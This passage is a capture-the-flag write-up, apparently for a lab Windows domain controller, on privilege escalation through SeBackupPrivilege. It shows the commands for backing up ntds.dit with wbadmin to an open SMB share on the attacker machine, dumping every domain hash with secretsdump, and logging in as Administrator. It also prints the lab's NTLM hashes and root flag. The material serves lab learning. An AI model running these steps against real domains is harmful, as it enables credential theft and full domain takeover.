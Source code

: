 # Priv esc
This user has the SeBackupPrivilege and SeRestorePrivilege privileges

## Exploit SeBackupPrivilege
make a ntfs disk and mount it.
Start a smb server on the attacker machine using the smb daemon.
```bash
nano /etc/samba/smb.conf

[Share]
   comment = Ew
   path = /tmp/blackfield
   read only = no
   guest ok = yes

mkdir /tmp/blackfield
chmod 777 /tmp/blackfield
```

On the windows machine
```powershell
net use x: \\10.10.14.3\Share
echo y | wbadmin start backup -backuptarget:\\10.10.14.3\Share -include:c:\windows\ntds\
```

There is a .vhdx file.
Lets get the ntds file.
```powershell
echo Y | wbadmin start recovery -version:11/06/2022-21:45 -itemtype:file -items:C:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```
*clearly*
get the file off the box. (via smb)
save the reg and then download it.

use secrets.dump to get everything.
```bash
/opt/impacket/examples/secretsdump.py -ntds ntds.dit -system system.hive LOCAL > ntds.out
```

```hashes
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0ae690f31d64846e88f9bd11d38bf351:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:7a1762d79c21e263eae080fadbb03429:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

Login as admin via evil-winrm
and get root flag.
```flag
4375a629c7c67c8e29db269060c955cb
```

# Cleanup
* Remove the system.hive and ntds.dit files. Very bad to just leave on a desktop.
* Change back smb settings on attacker machine.
* Reset the Audit2020's account password.


